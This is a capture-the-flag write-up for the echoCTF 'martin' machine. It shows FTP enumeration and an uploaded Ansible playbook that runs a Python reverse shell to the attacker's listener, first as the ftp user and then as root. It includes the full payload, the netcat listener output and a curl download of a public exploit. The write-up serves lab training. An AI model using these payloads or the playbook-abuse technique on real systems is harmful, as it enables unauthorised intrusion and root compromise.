 ```yaml
---
layout: post
title: martin
feature-img: "assets/img/portfolio/martin.png"
img: "assets/img/portfolio/martin.png"
date: 15 jul 2021
tags: [Ftp, playbooks]
---
```




[martin](https://echoctf.red/target/8)


machine description:

Martin is an academically brilliant teacher's pet. However, for all his brilliance, the simplest tricks are the ones that get him.
*Pick me, teacher, I'm ever so smart!*

---

### Enumartion


```
nmap -sC -sV -p- 10.0.30.0 -vv

21/tcp open  ftp     syn-ack ProFTPD 1.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp             0 Oct 23  2020 ETSCTF_a0f1eb9169bf9cfaef4f16af15160982
| drwxr-xr-x   2 ftp      ftp          4096 Oct 23  2020 playbooks
|_-rw-rw-r--   1 ftp      ftp           442 Oct 23  2020 welcome.msg
Service Info: OS: Unix



```

### Enumartion-FTP

ProFTPD 1.3.5

we have 2 files and one folder: 

1. flag
2. playbooks(folder contain facts.yml)
3. welcome.msg

using anonymus account, i have susccess to login. 
got banner massage:

```
230-Welcome, archive user anonymous@10.10.0.10 !
230-
230-The local time is: Tue Aug 02 06:52:02 2022
230-
230-This is an administrative FTP server for unattended ansible deployment.
230-
230-NOTICE: Make sure your playbooks are syntactically correct and able to run
230-before uploading.
230-
230-Playbooks run every 60 seconds.
230-
230-Don't replace facts.yml -- the system needs this file.
230-
230-Playbooks that are executed are removed from the folder
230-
230---------------------------------------------------------------------------
230 Anonymous access granted, restrictions apply

```

from hints i understand that the key is playbook file, and it runs every 60 sec. 

checking files: 

welcome.msg  -- its the banner that we see when we logged in. 
facts.yml  -- seems to be ftp configration

and we got shell:

```
└─$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.30.0 38742
/bin/sh: 0: can't access tty; job control turned off
$ 

/bin/sh: 0: can't access tty; job control turned off
$ id
uid=106(ftp) gid=65534(nogroup) groups=65534(nogroup)
$ whoami
ftp


```


### RCE 

google search gave a lot of RCE exploits. 
i used [exploit_db](https://www.exploit-db.com/exploits/49908)
downloading: curl https://www.exploit-db.com/raw/49908 -o exp.py

but it didnt worked, same for others. 
google for - [ansible playbooks](https://www.tommacdonald.co.uk/backdooring-ansible-playbooks-for-persistence/)


```
Create an AnsbilePOC.yml file in /etc/ansible/ containing:

- hosts: localhost
  sudo: true
  sudo_user: ftp
  connection: local
  gather_facts: false
  remote_user: root

  tasks:
  - name: open python shell .
    command: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

uploading the file to ftp/playbooks

```
ftp> put exp.yml 
local: exp.yml remote: exp.yml
200 PORT command successful
150 Opening BINARY mode data connection for exp.yml
226 Transfer complete
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp             0 Aug  2 07:09 exp.yml
-rw-rw-r--   1 ftp      ftp           308 Oct 23  2020 facts.yml
226 Transfer complete
ftp> 
```

after uploading the exp.yml file to playbook folder, i opened nc for connection.

nc -lnvp 4444
Listening on 0.0.0.0 4444

and wating as discribed:
1. Playbooks run every 60 seconds.
2. Playbooks that are executed are removed from the folder


```
ssh ETSCTF@10.0.200.29                                                                                                                   130 ⨯
ETSCTF@10.0.200.29's password: 
Linux milhouse.echocity-f.com 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ETSCTF@milhouse:~$ 
ETSCTF@milhouse:~$ 

```


### Privilege escalation

sudo -l - need pass. 

ps -aux | root


```
root         1  0.0  0.0  20068  2920 pts/0    Ss+  06:45   0:00 /bin/bash /entrypoint.sh tail -f /var/log/proftpd/proftpd.log /var/log/crontab.log
root        25  0.0  0.0  25908  2244 ?        Ss   06:45   0:00 /usr/sbin/cron
root        73  0.0  0.0   4276   740 pts/0    S+   06:45   0:00 tail -f /var/log/proftpd/proftpd.log /var/log/crontab.log
root      1632  0.0  0.5  82328 21904 ?        S    07:22   0:00 /usr/bin/python /usr/bin/ansible-playbook /srv/ftp/playbooks/exp.yml
root      1642  0.0  0.0   4340   760 ?        S    07:22   0:00 /bin/sh -c /bin/sh -c 'sudo -k && sudo -H -S -p "[sudo via ansible, key=veoecoxthqjsjvocottvmaapnhrglaxj] password: " -u ftp /bin/sh -c '"'"'echo SUDO-SUCCESS-veoecoxthqjsjvocottvmaapnhrglaxj; LANG=C LC_CTYPE=C /usr/bin/python /tmp/ansible-tmp-1659424921.33-263980486539506/command'"'"''
root      1643  0.0  0.0   4340   760 ?        S    07:22   0:00 /bin/sh -c sudo -k && sudo -H -S -p "[sudo via ansible, key=veoecoxthqjsjvocottvmaapnhrglaxj] password: " -u ftp /bin/sh -c 'echo SUDO-SUCCESS-veoecoxthqjsjvocottvmaapnhrglaxj; LANG=C LC_CTYPE=C /usr/bin/python /tmp/ansible-tmp-1659424921.33-263980486539506/command'
root      1645  0.0  0.0  38972  3048 ?        S    07:22   0:00 sudo -H -S -p [sudo via ansible, key=veoecoxthqjsjvocottvmaapnhrglaxj] password:  -u ftp /bin/sh -c echo SUDO-SUCCESS-veoecoxthqjsjvocottvmaapnhrglaxj; LANG=C LC_CTYPE=C /usr/bin/python /tmp/ansible-tmp-1659424921.33-263980486539506/command
```

ss -ant 

```
State      Recv-Q Send-Q        Local Address:Port          Peer Address:Port 
LISTEN     0      128              127.0.0.11:33575                    *:*     
ESTAB      0      10                10.0.30.0:38952           10.10.0.10:4444  
LISTEN     0      32                       :::21                      :::*     
ESTAB      0      0          ::ffff:10.0.30.0:21       ::ffff:10.10.0.10:54170 
```

after some rabbit holes i foucsed on the yml file again and noticed somthing importent:

*sudo_user: ftp*
we are runnig as ftp user, i tried to change to root user:

```
- hosts: localhost
  sudo: true
  sudo_user: root
  connection: local
  gather_facts: false
  remote_user: root

  tasks:
  - name: open python shell .
    command: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

upload the file and opend nc:

```
nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.30.0 39288
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 

```
